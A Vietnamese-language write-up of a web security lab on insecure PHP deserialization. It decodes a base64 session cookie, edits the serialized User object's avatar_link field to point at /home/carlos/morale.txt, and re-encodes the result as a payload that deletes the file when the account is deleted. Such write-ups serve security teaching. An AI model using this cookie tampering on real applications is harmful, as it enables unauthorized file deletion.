







# Writeup LAB Using application functionality to exploit insecure deserialization

## Goal
To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.
## Khai thác
Đăng nhập với tư cách người dùng `wiener`

Lịch sử HTTP Burp

Cookie được set sau khi giải mã url:
```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJlZ2lsdHgwZzQ5enAxMmw0cjJ2ZmZ0ejEwaDNobzJ0eSI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=
```
Giãi ma dữ liệu :
```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"egiltx0g49zp12l4r2vfftz10h3ho2ty";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```
Và ở đây khi giải max chúng ta có thể thấy được trường `avatar_link` lưu trữ đường dẫn người dùng và ở úng dụng có chứ năng cho phép upload hình ảnh và xóa tài khoản users hiện tại 

Và sẽ ra sao nếu chúng ta truyền vào đường dẫn `avatar_link` với lệnh độc hại sau đó thực hiện xóa tài khoản và lúc này nó sẽ giải mã tuần tự hóa chúng ta khiến lệnh thực thi hệ thống đúng không. <br>
Tải trọng:
```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"egiltx0g49zp12l4r2vfftz10h3ho2ty";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
Encode Base64 với tải trọng trên
```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJlZ2lsdHgwZzQ5enAxMmw0cjJ2ZmZ0ejEwaDNobzJ0eSI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
```
Dán vào cookie trình duyệt


Lúc này nó sẽ khiến lệnh thực thi và xóa tệp 
